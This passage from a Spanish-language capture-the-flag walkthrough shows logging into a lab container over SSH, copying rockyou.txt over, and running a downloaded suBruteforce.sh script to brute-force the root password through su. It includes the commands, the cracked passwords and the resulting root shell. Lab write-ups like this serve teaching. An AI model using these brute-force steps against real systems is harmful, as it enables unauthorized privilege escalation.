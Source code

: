 Veremos que ha funcionado, por lo que ahora si nos vamos a conectar por `SSH`.

### SSH

```shell
ssh balutin@<IP>
```

Metemos como contraseña `estrella` y veremos que estaremos dentro.

## Escalate Privileges

Despues de un rato, no veremos nada, por lo que vamos a probar a realizar de nuevo fuerza bruta con el usuario `root`, utilizando `su` de esta forma.

Antes nos pasaremos el `rockyou.txt` desde nuestro `host` ponemos esto:

```shell
scp /usr/share/wordlists/rockyou.txt balutin@172.17.0.2:/tmp/
```

Metemos como contraseña `estrella` y veremos que se cargo correctamente, si lo comprobamos veremos que ha funcioando.

Ahora nos vamos a descargar el script que vamos a utilizar de aqui.

URL = [Download suBruteforce.sh](https://github.com/D1se0/suBruteforce/blob/main/suBruteforceBash/suBruteforce.sh)

Una vez que lo hayamos pasado tambien a `/tmp` vamos a darle permisos de ejecuccion y ejecutarlo de esta forma.

```shell
cd /tmp
chmod +x suBruteforce.sh
./suBruteforce.sh root rockyou.txt
```

Info:

```
[+] Contraseña encontrada para el usuario root:rockyou
```

Veremos que ha funcionado, por lo que vamos a probarlas.

```shell
su root
```

Metemos como contraseña `rockyou` y veremos que estaremos dentro.

Info:

```
root@4332e7afbc43:/tmp# whoami
root
```

Por lo que vemos ya seremos el usuario `root`, por lo que habremos terminado la maquina.
